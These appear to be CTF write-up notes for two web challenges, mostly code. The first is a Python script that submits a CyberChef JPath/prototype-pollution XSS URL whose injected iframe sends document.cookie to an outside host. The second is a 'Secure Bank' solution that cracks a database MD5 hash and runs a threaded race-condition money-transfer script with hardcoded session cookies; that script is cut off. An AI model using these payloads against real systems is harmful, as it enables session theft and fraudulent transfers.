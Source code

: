```python
import requests

payload = "http://cyberchef:8000/#recipe=JPath_expression('$..%5B?((%7B__proto__:%5B%5D.constructor%7D).constructor(%22self.postMessage(%7Baction:%5C'bakeComplete%5C',data:%7BbakeId:1,dish:%7Btype:1,value:%5C'%5C'%7D,duration:1,error:false,id:undefined,inputNum:2,progress:1,result:%5C'%3Ciframe/onload%3Dfetch(`http://p6.is/flag?${document.cookie}`)%3E%5C',type:%20%5C'html%5C'%7D%7D);%22)();)%5D','%5C%5Cn')&input=W3t9XQ"

print(payload)

res = requests.post('http://1.230.253.91:8001/report', data = {
    'url': payload
}, allow_redirects = False)
```
### Referensi
https://blog.p6.is/writeups-for-hayyim-security-ctf-2022/
https://github.com/gchq/CyberChef/issues/1318
## Secure Bank
```php
$db = new SQLite3('bank.db');
```
https://497e26628f267446db264431-securebank.challenge.master.cscg.live:31337/bank.db
use sqlitebrowser to open the db
https://md5decrypt.net/
```
6579e96f76baa00787a28653876c6127 : johndoe
```
racer condition vulnerability
```python
import requests, threading

def transfer(url, cookie, post_param):
    requests.post(url, cookies=cookie, data=post_param)

amount = 1

while True:
    for i in range(0, 1):
        condition = i
        if condition == 1:
            source = "EU42SECB00051380016"
            destination = "EU88SECB00051380017"
        else:
            source = "EU88SECB00051380017"
            destination = "EU42SECB00051380016"
        url = "https://497e26628f267446db264431-securebank.challenge.master.cscg.live:31337/?page=transfer"
        cookie = {
            'PHPSESSID': 'fa8bae4534ef36ddd9304a495faeb9e6'
        }
        cookie2 = {
            'PHPSESSID': '0234cba451c7034c71040659dc4ba680'
        }
        post_param = {
            'source': source,
            'destination': destination,
            'amount': amount,
        }


        t1 = threading.Thread(target=transfer, args=(url, cookie, post_param))
        t2 = threading.Thread(target=transfer, args=(url, cookie2, post_param))
```